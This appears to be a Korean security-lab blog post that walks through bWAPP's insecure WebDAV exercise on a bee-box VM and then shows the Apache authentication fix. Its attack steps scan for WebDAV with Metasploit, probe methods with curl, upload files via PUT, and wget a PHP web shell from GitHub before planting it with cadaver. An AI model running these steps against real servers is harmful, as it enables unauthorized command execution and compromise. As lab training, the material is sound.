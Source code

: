```yaml
---
tiC:\Users\wjddj\EONION-TH3DB.github.io\_posts\2021-10-24- bWAPP - Insecure WebDAV Configuration.mdtle: "[bWAPP] 6. Security Misconfigurations - Insecure WebDAV Configuration"

---
```


## Definition

잘못된 보안 구성

잘못되거나 과도한 보안 설정으로 발생



## Insecure WebDAV Configuration

### Object

- bWAPP에 WebDAV 기능 활성화로 디렉토리 검색 및 악의적인 파일을 업로드하는 시나리오
- PUT Method를 이용해 WebDAV에 악의적인 파일을 업로드하는 취약점을 다뤄보자

### WebDAV

- 원격적으로 웹 서버를 제어할 수 있는 HTTP Protocol의 확장 기능
- 보안설정 미흡할 시 악성 스크립트가 포함된 파일 업로드하여 시스템에 침투 우려
- 기존 파일 수정하여 악의적인 행위 우려
- PUT Method를 허용하는 몇몇 서비스에서 악성 웹셸 업로드될 우려

| Method        | 내용                                                      |
| ------------- | --------------------------------------------------------- |
| GET           | 리소스를 취득할때 사용, URL 형식으로 웹서버로 리소스 요청 |
| HEAD          | 메세지 헤더 정보만 취득할 때 사용                         |
| POST          | 내용을 Body에 포함시켜 전송                               |
| PUT           | 헤더 이외에 메세지 전송 가능 / 웹서버에 파일 전송 가능    |
| TRACE         | 요청 리소스가 수신되는 경로 확인                          |
| OPTIONS       | 서버가 지원하는 메서드를 질의하여 응답으로 받음           |
| CONNECT       | 프락시 서버와 같은 중간 서버 경유시 사용                  |
| COPY / MOVE   | 리소스 파일 복사 / 이동                                   |
| LOCK / UNLOCK | 리소스와 파일이 overwrite되는 기능 ON / OFF               |

### 난이도 : 하

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211014014739763.png" alt="image-20211014014739763" style="zoom:67%;" />

### /webdav/

[WebDAV] 클릭 시 목록 확인 가능

<img src="image-20211015010543612.png" alt="image-20211015010543612" style="zoom: 84%;" />

### WebDav 사용 여부

<img src="image-20211015010814728.png" alt="image-20211015010814728" style="zoom: 40%;" />

- kali > msfdb start - 메타스플로잇 시작
- kali > msfconsole 
- msf6 > search webdav - 'webdav' 관련 exploit 코드
- msf6 > use auxiliary/scanner/http/webdav_scanner - 'webdav'의 사용 유무 체크
- msf6 auxiliary(scanner/http/webdav_scanner) > show options
- msf6 auxiliary(scanner/http/webdav_scanner) > set rhosts 비박스IP - 스캔할 대상
- msf6 auxiliary(scanner/http/webdav_scanner) > set path /webdav/ - 디렉토리 지정
- msf6 auxiliary(scanner/http/webdav_scanner) > exploit 

### 허용하는  HTTP Method 확인

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015011438494.png" alt="image-20211015011438494" style="zoom: 50%;" />

- kali > curl -X OPTIONS http://비박스IP/webdav/ -i
- /webdav/ 디렉토리에서 사용가능한 메소드 거의 대부분이라는 것 확인

### BurpSuite

BurpSuit를 통해 /webdav/에 임의의 파일 업로드 해보자(PUT 메서드 사용)

<img src="image-20211015012004733.png" alt="image-20211015012004733" style="zoom: 57%;" />

- /webdav/ 페이지 패킷 잡음

### BurpSuite - 1

GET -> PUT으로 변경

<img src="image-20211015012959815.png" alt="image-20211015012959815" style="zoom:58%;" />

- 내용 "<h1>Eonion</h1>"인 파일 업로드하기 위해 intecept off

### BurpSuite - 2

<img src="image-20211015013128396.png" alt="image-20211015013128396" style="zoom: 80%;" />

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015013254384.png" alt="image-20211015013254384" style="zoom:80%;" />

<img src="image-20211015013322950.png" alt="image-20211015013322950" style="zoom:104%;" />

- PUT 메서드를 통해 웹 서버에 파일 업로드 가능

### Kali

칼리를 이용해 악의적인 파일 업로드 해보자

<img src="image-20211015014551802.png" alt="image-20211015014551802" style="zoom: 65%;" />

- Kali > wget [https://raw.githubusercontent.com/Wphackedhelp/php-webshells/master/PHP%20Shell.php](https://raw.githubusercontent.com/Wphackedhelp/php-webshells/master/PHP Shell.php) - 코드 다운로드
- Kali >  cadaver http://비박스IP/webdav/ - 'Webdav' 클라이언트인 'cadaver' 사용
- dav:/webdav/ > put 'PHP Shell.php' 

### Kali - 1

<img src="image-20211015014839719.png" alt="image-20211015014839719" style="zoom: 80%;" />

- 웹 쉘을 통해 서버에 명령 수행 가능

### 대응방안 - BeeBox

아파치 설정 파일

<img src="image-20211015015554425.png" alt="image-20211015015554425" style="zoom: 69%;" />

- bee-box > sudo -s 
- bee-box > vi /etc/apache2/httpd.conf - 아파치 설정 파일
- 'Webdav' 활성화 되어있음

### BeeBox - 1

수정

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015023134008.png" alt="image-20211015023134008" style="zoom:69%;" />

- Options IncludeNoExec : 초기 파일(index.html)이 존재하지 않을 경우 오류 창을 띄움(403에러)
- AuthType Basic : 인증 유형(Basic : 패스워드 암호화 X / Digest : 패스워드 암호화)
- AuthName [id] : 인증 시 사용할 사용자 계정
- AuthUserFile [password file] : 'password file' 경로
- Require user [id] : 해당 계정만 접근 허용

### BeeBox - 2

패스워드 파일 생성

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015024634323.png" alt="image-20211015024634323" style="zoom:69%;" />

- bee-box > htpasswd -c [패스워드 파일] [생성 계정]
- bee-box > /etc/init.d/apache2 restart - 웹 서버 재시작

### 확인 - cadaver

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015025027061.png" alt="image-20211015025027061" style="zoom:92%;" />

- cadaver 명령어로 위와 똑같이 접속 시 계정 정보 요구

### 확인 - curl

<img src="image-20211015025611571.png" alt="image-20211015025611571" style="zoom:58%;" />

- 위에서 HTTP 메소드를 알아내기 위해 사용했던 curl을 이용시 401 오류와 인증을 요구
